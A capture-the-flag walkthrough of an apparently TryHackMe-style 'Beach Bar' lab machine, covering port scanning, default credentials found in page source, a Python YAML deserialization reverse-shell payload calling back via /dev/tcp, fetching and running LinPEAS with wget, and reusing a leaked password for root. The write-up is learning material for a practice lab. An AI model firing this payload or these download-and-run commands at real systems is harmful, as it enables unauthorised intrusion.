





# Day 5 - Beach Bar

| Category  |Difficulty|
|:---------:|:--------:|
| Boot2Root |   Easy   |

**Skills learned:**
* Probing ports and services with Nmap
* Obtaining reverse shell access via YAML deserialization
* Privilege escalation path enumeration via LinPEAS

## Concierge Briefing
Welcome back to the Byte Lotus — this time the sand is warm, the deck lights are coming up, and the beach bar's jukebox takes requests from anyone with a phone. You spend the evening as a guest at the rail who simply notices things: a DJ who never logs out, a song queue that accepts a little more than song titles, a service down the boardwalk quietly announcing "something".
The beachside guest-experience build shipped on a deadline, and the night-shift developer wired the jukebox straight into the floor with the trimmings still attached.

## Today's Itinerary
* Find the user flag
* Find the root flag

## Initial Enumeration
We can start by running an Nmap scan against the machine: `nmap -sV -Pn -p- [MACHINE IP]`
```                    
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-31 16:17 -0400
Nmap scan report for 10.64.140.146
Host is up (0.031s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Gunicorn
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.72 seconds
```

We only have port **80** as an option to investigate further. Opening the web page `http://[MACHINE_IP]` brings us here:


## Gaining a Foothold
After finding the login page, I examined the page's source code, which included:
```html
<div class="card" style="max-width:420px;margin:48px auto;"> 
<h1>DJ booth sign-in</h1> 
<p class="muted">Manage the jukebox playlists for tonight's set.</p> <!-- staff note: the demo DJ login is still enabled for the soft opening. dj / dj -- swap this before the season starts (ticket BAR-7) --> 
<form method="post"> <label for="username">Username</label> <input type="text" id="username" name="username" autocomplete="off" autofocus> <label for="password">Password</label> <input type="password" id="password" name="password" autocomplete="off"> 
<button type="submit">Step up to the decks</button> 
</form> </div>
```

Now we have a set of credentials to use to log in to the site: **dj:dj**. After logging in, we are brought to this page:


Clicking the **Import** button, we are given the option to paste and upload a **YAML** file containing a jukebox playlist. In order to spawn a reverse shell on this vulnerable machine, we need to exploit the site's **Insecure YAML Deserialization**.

Using [HackTricks](https://hacktricks.wiki/en/pentesting-web/deserialization/python-yaml-deserialization.html) as a reference guide, we can try to inject a one-liner reverse shell payload into the YAML file.

I found this example where a bash reverse shell was spawned via YAML deserialization: `!!python/object/new:os.system args: ['bash -c "bash -i >& /dev/tcp/10.0.0.1/1234 0>&1"']` 
All that is needed here is to edit the command to include my attacker IP and listening port.

First start a netcat listener using the command `nc -nlvp [LISTENING PORT]`. Then import the malicious YAML code to spawn a reverse shell:


Now we have user-level access in the machine! Find the user flag in the **/home/bartender/user.txt** file.

## User Flag
**THM{y4ml_\*\*\*\*\*\*\*\*_\*\*\*\*_\*\*\*_\*\*\*\*\*}**

## Escalating Privileges
I began enumerating possible escalation paths using [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS).
To run LinPEAS on the vulnerable host, we need to:
1. Download LinPEAS locally
2. Serve the script on a web server
3. GET the script on the vulnerable host using WGET
4. Execute the script on the remote host

Start by downloading the most recent release of **linpeas.sh** from [here](https://github.com/peass-ng/PEASS-ng/releases). Then serve this file on a local web server using the command `python -m http.server 80 `. In our reverse shell session, run these commands:
```
wget http://[ATTACKER IP]/linpeas.sh
chmod u+x linpeas.sh
./linpeas.sh
```



Reading through the full output of LinPEAS, we find a clue in the list of running processes:


We see the script `jukeboxd.py` being run with an option **--stream-pass SunsetSpritz2024!**. Perhaps this password is reused elsewhere...

I thought to attempt to **switch to the root user** from bartender using the command `su root`, with the password we just found: SunsetSpritz2024!.



Now we have root access! Find the root flag in the **/root/root.txt** file.

## Root Flag
**THM{cr3d3nt14l_\*\*\*\*\*_\*\*_\*\*\*_\*\*\*\*\*_\*\*\*}**